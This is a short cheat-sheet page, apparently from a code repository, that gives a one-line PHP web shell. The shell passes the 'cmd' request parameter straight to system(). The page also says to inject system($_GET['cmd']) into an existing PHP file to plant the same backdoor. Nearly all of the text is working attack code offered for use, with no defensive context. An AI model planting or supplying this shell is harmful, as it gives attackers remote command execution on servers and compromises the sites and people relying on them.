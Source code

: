 
Basic command injection just add `?cmd=COMMAND` to inject commands
```php
<?php system($_REQUEST['cmd']); ?>
```

Inject the following code in an existing PHP file to get the same effect:
```php
system($_GET['cmd']);
```